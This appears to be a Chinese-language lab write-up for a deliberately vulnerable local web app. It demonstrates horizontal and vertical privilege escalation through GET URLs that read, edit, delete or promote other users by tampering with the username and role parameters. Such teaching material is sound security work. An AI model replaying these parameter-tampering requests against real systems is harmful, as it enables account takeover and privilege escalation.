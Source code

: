 # 越权漏洞

## 水平越权

`username`参数没有做校验导致产生平行越权漏洞，可以对正常用户的用户名进行信息收集后，输入正常用户名进行攻击。

### 查看用户信息（GET）

查看用户信息接口

```
http://127.0.0.1:8000/unauthorized_access/?username=Taylor%20Velez
```

![image-20220615110331991](img/image-20220615110331991.png)

找到一个受害者的username是`Jeffrey Jones`

```
http://127.0.0.1:8000/unauthorized_access/?username=Jeffrey%20Jones
```

![image-20220615110752906](img/image-20220615110752906.png)

### 修改用户信息(GET)

正常修改用户接口操作：

```
http://127.0.0.1:8000/unauthorized_access/?username=Aaron%20Andrade&operation=edit&password=normal&phone=normal&address=normal
```

![image-20220615111337985](img/image-20220615111337985.png)

正常用户修改成功信息返回

![image-20220615111409208](img/image-20220615111409208.png)

攻击者发现漏洞，并且**修改密码、手机号、地址。**

```
http://127.0.0.1:8000/unauthorized_access/?username=Aaron%20Andrade&operation=edit&password=hacker&phone=hacker&address=hacker
```

![image-20220615111541321](img/image-20220615111541321.png)

### 删除用户(GET)

漏洞URL：

```
http://127.0.0.1:8000/unauthorized_access/?username=Candice%20Whitaker&operation=del
```

![image-20220615111831232](img/image-20220615111831232.png)

![image-20220615111850007](img/image-20220615111850007.png)



## 垂直越权

`username`和`role`参数没有做校验导致产生平行越权漏洞，可以对正常用户的用户名进行信息收集后，输入正常用户名进行攻击。

### 未授权访问（GET）

漏洞URL接口：

```
http://127.0.0.1:8000/unauthorized_access/
```

![image-20220615112627963](img/image-20220615112627963.png)

### 查看管理员信息（GET）

普通用户访问信息接口

```
http://127.0.0.1:8000/unauthorized_access/?username=Eric%20Stark
```

![image-20220615112827280](img/image-20220615112827280.png)



添加`role`参数的内容为`管理员`，即可查看到管理员信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Cassandra%20Wright&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615113025352](img/image-20220615113025352.png)



### 修改管理员信息（GET）

普通用户修改信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Eric%20Stark&operation=edit&password=normal&phone=normal&address=normal&role=%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7
```

![image-20220615113118129](img/image-20220615113118129.png)

攻击者修改管理员信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Linda%20Rios&operation=edit&password=hacker&phone=hacker&address=hacker&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615113218961](img/image-20220615113218961.png)

修改成功

![image-20220615113317080](img/image-20220615113317080.png)



### 删除管理员（GET）

漏洞URL：

```
http://127.0.0.1:8000/unauthorized_access/?username=Cassandra%20Wright&operation=del&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615113432287](img/image-20220615113432287.png)

![image-20220615113449007](img/image-20220615113449007.png)

### 提升管理员（GET）

Michael James为普通用户权限

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James
```

![image-20220615114211263](img/image-20220615114211263.png)

将他提升为**管理员权限**

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James&operation=promotion&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615114302512](img/image-20220615114302512.png)

查看是否提升成功。（需要添加role参数才可以查看）

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James&role=%E7%AE%A1%E7%90%86%E5%91%98
```

![image-20220615114517520](img/image-20220615114517520.png)